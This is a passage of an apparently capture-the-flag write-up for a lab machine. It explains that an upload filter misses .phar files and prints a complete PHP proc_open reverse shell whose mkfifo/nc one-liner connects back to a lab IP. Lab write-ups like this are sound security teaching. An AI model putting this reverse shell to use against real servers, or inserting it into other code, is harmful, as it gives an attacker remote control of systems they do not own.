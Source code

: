 ![file-checking.png](/Assets/Pictures/UpDown/file-checking.png)

As shown in line 65 we can see that `.phar` files are not mentioned, which is a win and line 70 shows the uploads directory, but that directory is being crypted into a md5 encryption directory, then the file is being deleted once done reading as shown in line 97.
Now let’s make a file containing some website and the php reverse shell code just at the end of the list of sites. So for a better maneuver it is better to have a long enough file of websites real or fake. we made ours up 😀

Sadly for me the reverse shell script written by pentest monkety is not working, so we needed to find another reverse shell. Here is a [link](https://github.com/Taintedtrickstr/Reverse_Shells/blob/main/PHP_Proc_Open_Reverse_Shell) to a good one since it uses proc_open.

```php
<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.73 4999 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);

     echo "command returned $return_value\n";
}
?>
```
